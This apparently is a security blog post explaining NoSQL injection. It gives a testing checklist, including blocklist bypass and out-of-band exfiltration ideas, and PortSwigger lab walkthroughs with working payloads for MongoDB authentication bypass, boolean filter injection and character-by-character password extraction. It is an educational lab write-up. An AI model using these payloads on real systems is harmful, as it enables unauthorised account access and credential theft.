 ```yaml
---
layout: post
title: NoSQLi
subtitle: Insert NoSQL query to bypass authentication and retrieve data from the database 
date: 2025-07-30 09:59
author: Ren Sie
comments: true
category: injection
---
```


Refer: [OWasp A03:2021](https://owasp.org/Top10/A03_2021-Injection/)

NoSQL injection is similar to SQL injection in that it allows an attacker to manipulate or inject malicious input into a NoSQL query to retrieve, modify, or delete data. However, the key difference lies in the database type and query language.  
* SQLi
  * SQL database (E.g., MariaDB, MySQL, PostgreSQL)
  * Structure Query Language

* NoSQLi
  * Semi-structured database (E.g., MongoDB, CouchDB)
  * JSON-like documents or key-value pairs

### Types of NoSQLi
1. Syntax injection: Attacker injects an unclosed string literal (`'`), to break the query’s logic.
2. Operator injection: Attacker injects NoSQL operator (`$gt`, `$lt`, `$eq`, `$ne`, `$regex`, etc.) into the query, changing the query’s logic to return unintended results or bypass authentication.

### Checklist
<details markdown="1">
  <summary>Click me to expand checklist</summary>  
  1. **What is the technology stack you're attacking?**  
      * Frontend technologies (e.g., React, Angular)  
      * Backend frameworks and languages (e.g., Node.js, Django)  
      * Web server (e.g., Apache, Nginx)  
      * Database (SQL or NoSQL)  
      * Other middleware, caching, cloud services, and tools that make up the full system  

  2. **What NoSQL DB is being used?**  
      * MongoDB, Amazon DynamoDB, Apache Cassandra, Neo4j, etc.

  3. **Verify injection points:**  
      * URL parameters (`?user=admin&id=123`)  
      * Form fields (e.g., login forms or search boxes)  
      * HTTP headers (e.g., cookies, user-agent, authorization token, X-Forwarded-For, etc.)  

  4. **Test with different operators:** `$eq`, `$ne`, `$gt`, `$gte`, `$lt`, `$lte`, etc.  

  5. **Can you trigger different responses?**  
      * Successful Authentication Bypass  
      * Data Disclosure  
      * Error Messages  
      * Application Behavior Change (e.g., listing additional items, showing admin-only features, etc)  
      * Partial or Conditional Responses (e.g., responses exist if a condition is true and not if false)  
      * Out-of-band (data retrieved from a third party apis)  
      * No Response or Timeout  
      * Second-order Effects (Payloads stored and executed later cause delayed changes or access)  

  6. **Test for login bypass:** `{"$ne": ""}`  

  7. **Test for blind NoSQLi (e.g., username=admin password={"$regex": "^a"})**  
      * If login behaves differently when varying regex, blindness confirmed  

  8. **Test for errors (e.g., category='\"{;$Foo}\n$Foo \xYZ\0`)**  
      * If the server returns an error message or 500 status, error-based injection is possible.

  9. **Test for conditional responses (category='fizzy' && 1==1 versus category='fizzy' && 1==0)**  
      * See if content or status differs indicating injection logic control.

  10. **Test for conditional errors (e.g., {"$where": "this.username == 'admin' && undefinedFunc()"})**  
      * An error occurs only if the condition matches.

  11. **Test for time delays (e.g., {"$where": "sleep(5000)"})**  

  12. **Test for out-of-band interactions**  
      * Inject NoSQL operators that cause the database to make DNS/HTTP requests to an attacker-controlled server via functions or extensions.

  13. **Is there a blocklist?** (e.g., disallowing $ne, $or, or special symbols)  

  14. **Can we bypass the blocklist?**  
      * Using different encodings (e.g., URL encoding, Unicode)  
      * Exploiting incomplete blocklists that only filter some operators or keywords  
      * Using alternate operator names or synonyms (e.g., `$not` instead of `$ne`)  
      * Taking advantage of application logic errors  
      * Using payloads that do not rely on blocked keywords but still affect query logic (e.g., `$where` with time delays or logic conditions )
</details>

### Lab
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#nosql-injection) to show how this vulnerability can lead to:

#### Detecting NoSQL injection
The product category filter for this specific web application is powered by MongoDB, I utilize NoSQL injection that causes the application to display unreleased products.  
  
Firstly, I capture and modify the `GET /filter?category=(category)` request using Burp Repeater.  
Then testing the vulnerability by using a single quote `'` to break the query and trigger a server error.  
After identifying the vulnerability, I insert boolean/truthy expression payloads to manipulate the server response with Burp Repeater and reveal hidden items.  
  ~~~
  GET /filter?category=Pets '||'1'=='1 or
  GET /filter?category=Pets '||1|| '
  ~~~

#### NoSQL operator injection to bypass authentication  
The login functionality for this specific application is powered by MongoDB. Which can be potentially vulnerable to NoSQL injection using MongoDB operators. Our goal is to log into the application as the administrator user.  
  
To test the operator injection vulnerability, I use Burp Proxy to capture the `login request`, and change the `password parameter value` with MongoDB operators on Burp Repeater
 ~~~
{"username": "user1", "password":{"$ne":"dgdfg"}}
 ~~~
 > Response: 302 Indicates the operator injection is valid, we log in as user1 with password is not equal to dgdfg.  
 > HTTP/2 302 Found  
 > Location: /my-account?id=user1  
 > Set-Cookie: session = T3qC4KyBeNJLu0SwOrBuv9M7ko6rDiMa;  
 > Secure; HttpOnly; SameSite=None  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 0

Now that I know the web application is vulnerable to NoSQL injection, I will try using regex for all common administrator usernames and repeat the same process as the previous step for the password.
 ~~~
 {"username":{"$regex":"adm.*"},"password":{"$ne":""}} 
 ~~~
 > Response: 302 Indicates the operator injection is valid, we log in as admin9hhcmyfb with password is not equal to blank.  
 > HTTP/2 302 Found  
 > /my-account?id=admin9hhcmyfb  
 > Set-Cookie: session = T3qC4KyBeNJLu0SwOrBuv9M7ko6rDiMa;  
 > Secure; HttpOnly; SameSite=None  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 0

{: .box-note}
**Note:** Refer to [MongoDB Documentation](https://www.mongodb.com/docs/php-library/current/crud/query/specify-a-query/) for more details about its operators

#### Exploiting NoSQL injection to extract data 
The user lookup functionality for this instnace is powered by a MongoDB NoSQL database. It is possibly vulnerable to NoSQL injection. Our goal is to extract the password for the administrator user, then log in to their account.
Firstly 
To test the vulnerability, I start off sending a single character with in GET `/user/lookup?user=`
 ~~~
 GET /user/lookup?user=' 
 ~~~
 > Response: The message in the response indicates this is vulnerabile to NoSQLi  
 > HTTP/2 200 OK  
 > Content-Type: application/json;  
 > charset=utf-8  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 58  
 > {"message": "There was an error getting user details"}  

Then I modify and send a Boolean expression in Burp Repeater to discover a hidden user, such as "administrator": 
 ~~~
 GET /user/lookup?user=wiener'||'1'=='1 
 ~~~
 > Response: It provides me the available user's information  
 > HTTP/2 200 OK  
 > Content-Type: application/json;  
 > charset=utf-8  
 > X-Frame-Options: SAMEORIGIN  
 > Content-Length: 96  
 > {"username": "administrator", "email":"admin@normal-user.net", "role":"administrator"}

Now we have the username, time to figure out thier password. I use Burp Intruder to submit numeric payloads (1–30) and determine that the administrator's password length is 8 by studying the Length of the response: 
 ~~~
 administrator' && this.password.length == §1§ 
 ~~~
![Burp Intruder Response](https://rencybersec.github.io/assets/img/githubpost/NoSQLi_1.png)

After determining the password length, I use Intruder’s Cluster Bomb attack mode to discover each character of the password. The first payload position represents the index (0–7) of each character in the administrator's password, while the second payload position represents the character (a–z) to test at each position. We will reuse the same technique from the previous step, where we analyze the response length to determine which letter appears in the password.
 ~~~
 administrator' && this.password[§0§] == '§a§
 ~~~
